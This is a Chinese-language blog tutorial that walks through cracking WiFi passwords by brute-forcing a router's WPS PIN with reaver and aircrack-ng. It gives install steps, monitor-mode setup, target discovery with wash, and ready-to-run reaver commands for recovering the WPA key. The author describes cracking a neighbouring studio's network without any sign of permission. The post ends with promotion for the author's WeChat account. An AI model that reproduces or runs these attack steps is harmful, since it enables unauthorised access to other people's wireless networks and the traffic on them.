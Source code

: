 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞
lock: need
---
```


# 使用reaver傻瓜式破解wifi之利用路由器WPS漏洞

跟这篇破解教程一样，网上破解教程多是基于路由器的WPS漏洞破解，但是这样的路由器只占少数。一般wifi是依据WPA/WPA2加密的，因此想要破解一般的wifi，还得破解这个协议，虽然近期这个协议也被破解了，不过也是很不容易的。

 刚入门破解，不是很熟悉，在网上找各种破解资料，终于破解成功了临近工作室的wifi，沾沾自喜~
 本文破解wifi针对一些路由器的WPS（Wi-fi protected setup）漏洞,尝试很多次抓包PIN码，破解2-3天，正常来说是一定能抓到正确的PIN码的。
 一个路由器对应唯一的MAC和PIN，而一旦得到MAC和PIN，通过reaver工具，路由密码等信息就可以很快得出来。

 1.安装依赖包：

```bash
sudo apt-get install -y libpcap-dev
libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
```

 2.安装aircrack-ng：

```bash
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make (aircrack-ng源码安装参考http://www.tuicool.com/articles/MfUjii)
sudo make install
```

 3.安装reaver:

 在https://pan.baidu.com/s/1kUdvM1D下载reaver

```bash
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

4.如果安装成功后，会有airmon-ng,airodump-ng,reaver等命令可用(如果没有ethtool,要安装：apt-get install ethtool)

 5.开始破解：(参考http://www.she.vc/article/18-108334-0.html http://www.kali.org.cn/thread-20995-1-1.html)
 （1）sudo airmon-ng check kill （关闭进程，部分进程可能影响到后续的操作）

```bash
Found 4 processes that could cause trouble. 
If airodump-ng, aireplay-ng or airtun-ng stops working after 
a short period of time, you may want to run 'airmon-ng check kill' 
 
	PID Name 
	431 avahi-daemon 
	446 dhcpcd 
	470 avahi-daemon 
	512 wpa_supplicant
```

（2）sudo airmon-ng

（3）sudo airmon-ng start wlan1

（4）sudo airmon-ng start wlan1mon （开启网卡，将网卡转换成混杂模式）

```bash
PHY Interface Driver Chipset 
 
phy0 wlan0 brcmfmac_sdio Broadcom 43430 
 
Missing nexutil, cannot switch to monitor mode. 
phy1 wlan1mon mt7601u Ralink Technology, Corp. 
 
(mac80211 monitor mode already enabled for [phy1]wlan1mon on [phy1]10)
```

（5）sudo airodump-ng wlan1mon （查看ap信号强度，破解的wifi信号越强越好）

（6）wash -i wlan1mon -C （查看支持wps的ap）（一种说法是：MB是54e.的可破解，54e不可破解）

 6.（正式破解，在root下）使用reaver：

 因状况调整参数：MAC即BSSID的值，-c后面的数字是CH的值。

 目标信号非常好:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d0 -c 1
```

 目标信号普通:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d2 -t 5 -c 1
```

 目标信号一般:

```bash
reaver -i wlan1mon -b MAC -a -S -vv -d5 -c 1
```



 7.每60s重新破解一次，等待三天，密码将会出来

 8.最终得到PIN码（WPS PIN）和密码（WPA PSK），如果密码 被改，只要reaver加上-p命令
 (reaver -i wlan1mon -b MAC -p PIN码 -vv)，密码又能秒出； 但如果PIN码被改，就要重新破解了。

 9.破解完成后，将网卡转回正常状态（airmon-ng stop wlan1mon）

![](https://img-blog.csdnimg.cn/20181201230356708.png)

![](https://img-blog.csdnimg.cn/20181201230518468.jpg)

备注：reaver时可以随时停止，它自己会保存进度

 升级破解固件[http://netsecurity.51cto.com/art/201105/264844_all.htm](http://netsecurity.51cto.com/art/201105/264844_all.htm)
 
 ## 写在最后
 
 > 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！
 
 
 ![](https://img-blog.csdnimg.cn/20200906013715889.png)